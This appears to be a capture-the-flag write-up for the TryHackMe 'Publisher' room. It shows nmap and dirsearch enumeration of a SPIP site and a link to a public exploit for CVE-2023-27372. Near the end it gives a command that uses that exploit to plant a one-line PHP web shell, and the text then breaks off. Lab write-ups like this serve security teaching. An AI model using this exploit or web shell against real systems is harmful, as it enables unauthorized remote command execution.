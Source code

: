 # <div align="center">[Publisher](https://tryhackme.com/r/room/publisher)</div>
<div align="center">
  <img src="https://tryhackme-images.s3.amazonaws.com/room-icons/618b3fa52f0acc0061fb0172-1718377893997" height="300"></img>
</div>

###### The “Publisher” CTF machine is a simulated environment hosting some services. Through a series of enumeration techniques, including directory fuzzing and version identification, a vulnerability is discovered, allowing for Remote Code Execution (RCE). Attempts to escalate privileges using a custom binary are hindered by restricted access to critical system files and directories, necessitating a deeper exploration into the system’s security profile to ultimately exploit a loophole that enables the execution of an unconfined bash shell and achieve privilege escalation.

* ##  Enumeration
### Let Make a Nmap Scan
```
death@esther:~$ nmap 10.10.102.137 -sV 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-09 18:58 IST
Nmap scan report for 10.10.102.137
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.16 seconds
```
### According to scan 2 ports are open.
* ### SSH on port 22.
* ### HTTP on port 80.

### As HTTP is open let take a look.

![image](https://github.com/user-attachments/assets/d57d3ac9-fc20-45f4-b088-06e3febe28e7)

### I didn't Find anything, Let enumerate directories.

```
dirsearch -u <Ip> -w <wordlist>
```
```
death@esther:~$ dirsearch -u 10.10.102.137 -w ~/wordlists/directory-list-2.3-medium.txt 
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25
Wordlist size: 220544

Output File: /home/death/reports/_10.10.102.137/_24-09-09_19-00-50.txt

Target: http://10.10.102.137/

[19:00:51] Starting: 
[19:00:53] 301 -  315B  - /images  ->  http://10.10.102.137/images/
[19:01:53] 301 -  313B  - /spip  ->  http://10.10.102.137/spip/
[19:12:30] 403 -  278B  - /server-status

Task Completed
```
### Let navigate to Spip

![image](https://github.com/user-attachments/assets/4594f119-0380-425d-8ee3-b2b6857e5078)

### Let enumerate /spip/ directory,

```
death@esther:~$ dirsearch -u 10.10.102.137/spip/ 
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/death/reports/_10.10.102.137/_spip__24-09-09_19-39-28.txt

Target: http://10.10.102.137/

[19:39:28] Starting: spip/
[19:39:35] 403 -  278B  - /spip/.ht_wsr.txt
[19:39:35] 403 -  278B  - /spip/.htaccess.orig
[19:39:35] 403 -  278B  - /spip/.htaccess.bak1
[19:39:35] 403 -  278B  - /spip/.htaccess.sample
[19:39:35] 403 -  278B  - /spip/.htaccess.save
[19:39:35] 403 -  278B  - /spip/.htaccess_extra
[19:39:35] 403 -  278B  - /spip/.htaccess_orig
[19:39:35] 403 -  278B  - /spip/.htaccess_sc
[19:39:35] 403 -  278B  - /spip/.htaccessBAK
[19:39:35] 403 -  278B  - /spip/.htaccessOLD
[19:39:36] 403 -  278B  - /spip/.htaccessOLD2
[19:39:36] 403 -  278B  - /spip/.htm
[19:39:36] 403 -  278B  - /spip/.html
[19:39:36] 403 -  278B  - /spip/.htpasswds
[19:39:36] 403 -  278B  - /spip/.htpasswd_test
[19:39:36] 403 -  278B  - /spip/.httr-oauth
[19:39:38] 403 -  278B  - /spip/.php
[19:40:04] 200 -    7KB - /spip/CHANGELOG.md
[19:40:05] 200 -    2KB - /spip/composer.json
[19:40:06] 301 -  320B  - /spip/config  ->  http://10.10.102.137/spip/config/
[19:40:06] 200 -   27KB - /spip/composer.lock
[19:40:06] 200 -  570B  - /spip/config/
[19:40:18] 200 -    2KB - /spip/htaccess.txt
[19:40:20] 200 -    3KB - /spip/index.php
[19:40:20] 200 -    3KB - /spip/index.php/login/
[19:40:24] 200 -   34KB - /spip/LICENSE
[19:40:24] 301 -  319B  - /spip/local  ->  http://10.10.102.137/spip/local/
[19:40:24] 200 -  609B  - /spip/local/
[19:40:40] 200 -  842B  - /spip/README.md
[19:40:51] 301 -  317B  - /spip/tmp  ->  http://10.10.102.137/spip/tmp/
[19:40:51] 200 -  712B  - /spip/tmp/
[19:40:51] 200 -  527B  - /spip/tmp/sessions/
[19:40:54] 200 -    0B  - /spip/vendor/autoload.php
[19:40:54] 200 -  535B  - /spip/vendor/
[19:40:54] 200 -    0B  - /spip/vendor/composer/autoload_namespaces.php
[19:40:54] 200 -    0B  - /spip/vendor/composer/ClassLoader.php
[19:40:54] 200 -    0B  - /spip/vendor/composer/autoload_files.php
[19:40:54] 200 -    0B  - /spip/vendor/composer/autoload_real.php
[19:40:54] 200 -    0B  - /spip/vendor/composer/autoload_classmap.php
[19:40:54] 200 -    0B  - /spip/vendor/composer/autoload_psr4.php
[19:40:54] 200 -    0B  - /spip/vendor/composer/autoload_static.php
[19:40:54] 200 -    1KB - /spip/vendor/composer/LICENSE
[19:40:54] 200 -   15KB - /spip/vendor/composer/installed.json

Task Completed
```
### Let take a view at local directory,


![image](https://github.com/user-attachments/assets/150dde31-a165-41df-bc6d-2be259f14e9c)

### Let View this config file.

![image](https://github.com/user-attachments/assets/dd67373e-b2f5-41da-8821-d82aafb4a172)

### The version is mentioned here let search for any CVE or Exploit.

![image](https://github.com/user-attachments/assets/87de6806-b78d-4562-bc0a-cc9024cdda94)

### As i thought there is ```CVE-2023-27372``` is present, here is the link of exploit [CVE-2023-27372](https://github.com/nuts7/CVE-2023-27372)

* ### git clone https://github.com/nuts7/CVE-2023-27372
* ### cd cd CVE-2023-27372/

### Now Let take a try might be it will work.
* ###  Let try getuid of system.
```
python3 CVE-2023-27372.py -u http://10.10.102.137/spip -c 'echo "<?php system(\$_GET[\"cmd\"]); ?>" > test.php'  -v
```

### Requirenment not isntalling issue
